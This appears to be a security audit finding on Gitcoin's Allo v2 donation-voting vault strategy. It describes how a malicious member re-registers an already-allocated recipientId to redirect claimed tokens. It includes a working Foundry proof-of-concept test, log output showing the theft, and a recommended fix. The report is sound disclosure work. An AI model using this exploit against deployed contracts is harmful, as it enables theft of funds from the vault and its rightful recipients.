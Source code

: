 Deep Grape Narwhal

high

# Malicious member can claim token through an allocated RecipientId
Issue similar to QVBaseStrategy.sol. A malicious member can register recipient with an already allocated recipientId ，and then steal tokens from vault

## Vulnerability Detail

## Proof of Concept
1.  Add the following test_claim_poc()  to  the DonationVotingMerkleDistributionVaultStrategy.t.sol
```solidity 
function test_claim_poc() public{

        address recipientId=  __mregister_recipient();
        vm.warp(allocationEndTime + 1 days);
        DonationVotingMerkleDistributionVaultStrategy.Claim[] memory claim =
            new DonationVotingMerkleDistributionVaultStrategy.Claim[](1);
        claim[0] = DonationVotingMerkleDistributionVaultStrategy.Claim({recipientId: recipientId, token: NATIVE});

       
        _strategy.claim(claim);

        console.log("-----------------after claimed---------------");
        console.log("profile1_member2(Malicious) recipientAddress balance after claimed:",attack().balance);
        console.log("profile1_member1 recipientAddress balance after claimed:",recipientAddress().balance);
    }
```

2.Add the following  __mregister_recipient()  and   attack() to the DonationVotingMerkleDistributionBase.t.sol

```solidity
function __mregister_recipient() public returns(address samerecipientId){
        
        address recipientId = __register_accept_recipient_allocate();
        //just for log
        DonationVotingMerkleDistributionBaseStrategy.Recipient memory recipients = strategy.getRecipient(recipientId);
        console.log("profile1_member1",recipientId);
        console.log("profile1_member1 recipientaddress:",recipients.recipientAddress);
        console.log("profile1_member1 recipientaddress balance:",recipients.recipientAddress.balance);
        vm.warp(registrationStartTime + 10);

        vm.prank(address(allo()));
//profile1_member2（Malicious members） 
// Register recipient using the RecipientId(eg:profile1_anchor()) that has been  allocated
        Metadata memory metadata = Metadata({protocol: 1, pointer: "metadata"});
        bytes memory data = abi.encode(profile1_anchor(), attack(), metadata);

        samerecipientId = strategy.registerRecipient(data, profile1_member2());
        DonationVotingMerkleDistributionBaseStrategy.Recipient memory recipient = strategy.getRecipient(samerecipientId);
        console.log("----------------------------------------------");
        console.log("profile1_member2(Malicious):",samerecipientId);
        console.log("profile1_member2(Malicious) recipientAddress:",recipient.recipientAddress);
        console.log("profile1_member2(Malicious) recipientAddress balance:",recipient.recipientAddress.balance);
    }
  //Malicious recipientAddress
    function attack() public returns (address) {
        return makeAddr("attack");
    }
```

3.Run   forge test -vv --match-path test/foundry/strategies/DonationVotingMerkleDistributionVaultStrategy.t.sol --match-contract DonationVotingMerkleDistributionVaultStrategy --match-test test_claim_poc
```solidity
[PASS] test_claim_poc() (gas: 392305)
Logs:
  profile1_member1 0xad5FDFa74961f0b6F1745eF0A1Fa0e115caa9641
  profile1_member1 recipientaddress: 0x7b6d3eB9bb22D0B13a2FAd6D6bDBDc34Ad2c5849
  profile1_member1 recipientaddress balance: 0
  ----------------------------------------------
  profile1_member2(Malicious): 0xad5FDFa74961f0b6F1745eF0A1Fa0e115caa9641
  profile1_member2(Malicious) recipientAddress: 0x035731A5BC3771c28077f08a1A72959366C0F700
  profile1_member2(Malicious) recipientAddress balance: 0
  -----------------after claimed---------------
  profile1_member2(Malicious) recipientAddress balance after claimed: 1000000000000000000
  profile1_member1 recipientAddress balance after claimed: 0
```

## Impact
leading to loss of funds for vault
Affects the fairness of protocol

## Code Snippet
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/6430c8004017e96ae2f5aac365bdefd0b6eeea72/allo-v2/contracts/strategies/donation-voting-merkle-base/DonationVotingMerkleDistributionBaseStrategy.sol#L528

https://github.com/sherlock-audit/2023-09-Gitcoin/blob/6430c8004017e96ae2f5aac365bdefd0b6eeea72/allo-v2/contracts/strategies/donation-voting-merkle-distribution-vault/DonationVotingMerkleDistributionVaultStrategy.sol#L70

## Tool used
Manual Review

## Recommendation
Lock already allocated recipientId ,add  verification process in RegisterRecipient().
If this issue is valid, then the registerRecipient() function of other contracts has the same issue, please verify carefully.